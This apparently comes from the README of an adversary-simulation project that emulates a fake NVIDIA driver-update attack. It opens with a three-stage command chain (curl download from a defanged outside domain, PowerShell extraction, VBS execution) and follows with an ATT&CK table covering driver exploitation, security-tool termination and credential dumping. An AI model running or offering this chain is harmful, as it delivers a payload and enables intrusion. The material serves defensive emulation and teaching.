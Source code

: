 ```bash
# Stage 1: Malicious Download
curl -k -o "%TEMP%\nvidiadrivers.zip" https://api.smartdriverfix[.]cloud/nvidiadrivers-kp9s.update

# Stage 2: PowerShell Archive Extraction  
&& powershell -Command "Expand-Archive -Force -Path '%TEMP%\nvidiadrivers.zip' -DestinationPath '%TEMP%\nvidiadrivers'"

# Stage 3: VBS Script Execution
&& wscript "%TEMP%\nvidiadrivers\install.vbs"
```

### **🔗 MITRE ATT&CK Techniques Demonstrated**
| Technique | ID | Description | Simulation Component |
|-----------|----|-----------|--------------------|
| **Initial Access** | | | |
| Phishing: Spearphishing Link | T1566.002 | Fake NVIDIA driver update social engineering | Social engineering simulation |
| **Execution** | | | |
| Command and Scripting Interpreter: PowerShell | T1059.001 | Archive extraction via PowerShell | setup.ps1, extraction commands |
| Command and Scripting Interpreter: Visual Basic | T1059.005 | VBS script-based driver loading | install.vbs, update.vbs, driver_loader.vbs |
| **Privilege Escalation** | | | |
| Exploitation for Privilege Escalation | T1068 | CVE-2015-2291 Intel Ethernet exploitation | iqvw64.sys simulation with kernel access |
| **Defense Evasion** | | | |
| Impair Defenses: Disable or Modify Tools | T1562.001 | Security software termination and bypass | Security process enumeration/termination |
| Rootkit | T1014 | Kernel-level hiding and evasion | Advanced rootkit behavior simulation |
| Indicator Removal: File Deletion | T1070.004 | Cleanup of installation artifacts | Selective artifact cleanup simulation |
| **Credential Access** | | | |
| OS Credential Dumping | T1003 | LSASS memory access preparation | Credential access preparation simulation |
| **Discovery** | | | |
| System Information Discovery | T1082 | OS version and architecture enumeration | Environment analysis simulation |
| Security Software Discovery | T1518.001 | Security product enumeration | EDR/AV process detection simulation |
| **Collection** | | | |
| **Command and Control** | | | |
| Ingress Tool Transfer | T1105 | Downloading malicious driver packages | Package download and deployment |
| **Persistence** | | | |
| Boot or Logon Autostart Execution: Kernel Modules | T1547.006 | Driver-based persistence establishment | Kernel driver service creation |
| Create or Modify System Process: Windows Service | T1543.003 | Service-based persistence | Driver service registration |
| **Process Injection** | | | |
| Process Injection | T1055 | Process hollowing preparation | Advanced injection technique simulation |
| **Registry Modification** | | | |
| Modify Registry | T1112 | Driver configuration and persistence | Registry persistence entries creation |

---